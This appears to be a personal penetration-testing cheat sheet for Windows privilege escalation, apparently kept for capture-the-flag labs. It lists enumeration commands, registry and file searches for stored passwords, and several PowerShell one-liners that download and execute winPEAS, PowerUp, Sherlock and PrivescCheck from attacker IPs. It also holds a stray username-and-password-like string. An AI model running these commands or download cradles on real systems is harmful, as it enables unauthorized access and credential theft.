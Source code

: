 

```
#System Enuemration
shell
hostname
systeminfo 
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
wmic qfe 
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic logicaldisk 
wmic logicaldisk get caption,description,providername 
wmic logicaldisk get caption

```

```
#User Enumeration
whoami
whoami /priv
whoami /groups

net user
net user <username>
net localgroup
net localgroup <groupname>
```

```
#Network Enumeration
ipconfig
ipconfig /all

arp -a
route print

netstat -ano
```

```
#AV Enumeration
sc query windefend
sc queryex type= service 

netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
```

```
HassHass
._;k4n?F61:y
```

# System info
```
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type"
```


# List patches
```
wmic qfe
```
 
# List installed applications
```
wmic product get name,version
```
 
# Get disks
```
wmic logicaldisk get caption,description
```
 
# User enumeration
```
whoami /priv
```

```
whoami /groups
```

```
net users
```

```
net localgroup
```
 
# Network enumeration
```
ipconfig
```

```
route print
```

```
arp -a
```
 
# Finding passwords
```
findstr /si password *.txt *.ini *.config
```

```
reg query HKLM /f password /t REG_SZ /s
```

```
reg query HKCU /f password /t REG_SZ /s
```
 
# Services
```
sc query | findstr /B /C:"SERVICE_NAME" /C:"DISPLAY_NAME"
```
 
# Firewall Configuration
```
netsh advfirewall firewall dump
```

```
netsh firewall show state
```

```
netsh firewall show config
```



## Winpeas
https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
```
cd /usr/share/windows-resources/
```

```
Invoke-WebRequest -Uri http://10.10.16.6/Auto/winPEASx64.exe -OutFile winpeas.exe
```

```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6/Auto/winPEASx64.exe'); Invoke-winPEASx64 -Extended
```

```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6/Auto/winPEASx64.exe') | powershell -noprofile -
```

```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PEASS-ng/winPEAS/winPEASps1/winPEAS.ps1')
```

```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PrivescCheck/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended
```



## Priv
https://github.com/itm4n/PrivescCheck
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PrivescCheck/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended
```

## Powerup
```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.2:8080/PowerUp.ps1') | powershell -noprofile -
```

## Sherlock
```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.2:8080/Sherlock.ps1') | powershell -noprofile -
```

## Write Files
We need to run winpeas somewhere so will find locations like this work
```
C:\Windows\System32\spool\drivers\color
```

## IIS Server
```
Generally what we do when we are on a Web Server
We try to go into the www directory
cd \inetpub
cd wwwroot 

Cuz if we get a shell as IIS chances are we will be having SE Impersonate Privilege which will allow us to escalate.
```


## How to run the .exe file in kali linux
ILSpy is the **open-source .** **NET assembly browser and decompiler**

```
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
```

```
unzip Linux.x64.Release.zip
```

```
unzip ILSpy-linux-x64-Release.zip
```

```
./ILSpy
```

![[Pasted image 20240917081516.png]]


## Privileges net user ______

I’m particularly interesting in backup and restore. I can see that jorden has `SeBackupPrivilege` and `SeRestorePrivilege`.

#### File Read

With both of these privs, I can use `robocopy` to read files (see [PayloadsAllTheThings short reference](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges)).



## Scripts

- [ ] winpeas  https://github.com/carlospolop/PEASS-ng/releases/tag/20221211
- [ ] 